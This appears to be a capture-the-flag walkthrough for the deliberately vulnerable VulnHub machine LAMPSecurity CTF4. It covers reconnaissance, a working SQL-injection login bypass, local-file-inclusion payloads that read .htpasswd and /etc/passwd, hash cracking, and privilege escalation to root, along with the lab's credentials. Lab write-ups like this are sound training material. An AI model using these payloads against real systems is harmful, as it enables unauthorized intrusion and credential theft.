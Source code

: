 LAMPSecurity: CTF4

[Machine](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/ "https://www.vulnhub.com/entry/lampsecurity-ctf4,83/")

## Reconnaissance

### nmap

* ssh
* smtp
* http
* ipp(closed)

### Vulnerable versions

* [ ] ssh

* [x] smtp - Sendmail 8.13.5 - Remote Signal Handling (PoC)

* [ ] http

### http

#### robots.txt

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

#### /mail/

* Log in form.

* SquirrelMail 1.4.17. 

#### /restricted/

* Server authentication window.

#### /conf/

* Internal Server Error.

#### /sql/

* File `db.sql` with queries.

#### /admin/

* Log in form.

#### /calendar/

* Real calendar.

* Log in button.

#### /pages/

* A three `.php` files.

#### /usage/

* Statistics.

* Webalizer version 2.01 - nothing.

#### /index.html?page=blog&title=Blog

* user: `jdurbin`

#### whatweb

* PHP 5.1.6
```
PHP 5.1.6 - 'Chunk_Split()' Integer Overflow                                                                                                                                                      
PHP 5.1.6 - 'Imap_Mail_Compose()' Remote Buffer Overflow                                                                                                                                               
PHP 5.1.6 - 'Msg_Receive()' Memory Allocation Integer Overflow       
PHP 5.1.6 - Mb_Parse_Str Function Register_Globals Activation
```

#### dirb
 
* http://192.168.88.222/mail/configure - some sh script.

* http://192.168.88.222/admin/inc/blog.php - form with SQL error disclosure.

* http://192.168.88.222/mail/contrib/decrypt_headers.php - form with key and string.

### smtp

#### smtp-commands nmap script

`nmap -p25 --script smtp-commands -oA commands 192.168.88.222` - gives nothing.

#### smtp-enum-users nmap script

`nmap --script smtp-enum-users 192.168.88.222` - gives the result that VRFY and EXPN methods are not working.

#### Grab banner

`nc -vn 192.168.88.222 25`. Then `HELO x` and it shows the domain `ctf4.sas.upenn.edu`.

## Thread modeling

1. Exploit: `Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion.`

2. Exploit: `Sendmail 8.13.5 - Remote Signal Handling (PoC)`

3. Try SQLi at `/admin/inc/blog.php`.

4. Examine /mail/contrib/decrypt_headers.php

5. Brute-force ssh with username jdurbin.

6. Try SQLi at login forms. 

## Vulnerability analysis

1. Local File Inclusion with `src/redirect.php?plugins[]=../../../../etc/passwd%00` doesn't work.

2. PoC exploit seems doesn't work too.

3. I couldn't exploit it, because there was escape \.

4. It just tries to encode string(?) with key(?).

5. Didn't give a result.

6. `' or 1=1` gives a SQL error with query exfiltration :) You need to do it with `Burp` cause JS code will delete all `'` symbols.

7. Also, in search panel and title, classic xss `<script>alert(1);</script>`.

You also have a squirrel login panel, but I think that it will not be vulnerable or more difficult to exploit than the login panel above.

## Exploitation

### login form SQLi

`' or 1=1` works. Mysql error:
```sql
select user_id from user where user_name='' or 1=1' AND user_pass = md5('' or 1=1')
```

admin: `' or 1='1
password: `') or 1=1#`
Final query will be next:
```
select user_id from user where user_name='' or 1='1' AND user_pass = md5('') or 1=1#')
```
And it will give the access. Your id cookie will be 6. But you will not get anything after that. :(

### Additional reconnaissance

I don't get a new opportunity to get access to the target. Need an additional enumeration.

Searching...

### LFI

With `http://ctf4.sas.upenn.edu/?page=../inc/footer` you will get a cup of footers.

Apache - .htaccess, .htpasswd.

Now, combine it: `?page=../restricted/.htpasswd%00`
`/restricted/` from robots.txt, `%00` for end file without `.php` extension, other way Apache will treat it as php file.

Then `john` will easily crack the hashes. `ssh sorzek@192.168.88.222 -o KexAlgorithms=diffie-hellman-group-exchange-sha1`. Got access to the target.

## Post exploitation

### Enumeration 

* sorzek - nothing.

* dstevens - nothing. But actually has information in the mail folder. Talk about passwords "password1234" and "undone".

### MySQL stored hashes

* pmoore - has access to MySQL with `mysql -u root -p` and password `database`. So, next, I did:

```sql
use ehks;
show tables;
select * from user;
```
And got all the md5 hashes. The next step is to crack them all. `john the reaper` didn't work...[crack hashes](https://crackstation.net/ "https://crackstation.net/"). 

### Access to .ssh folder of user achen

`cat /home/achen/.ssh/achen_priv.ppk` will show you private key from putty. Download `puttygen.exe` and use `wine`. Copy priv. key to your machine. But my `puttygen.exe` generated a bad key, I couldn't log in. So, I just used the previous way.

### Privilege Escalation

`ssh achen@192.168.88.222` with password `seventysixers`. Then `sudo -l` will show you that you can just `sudo su` and get root.
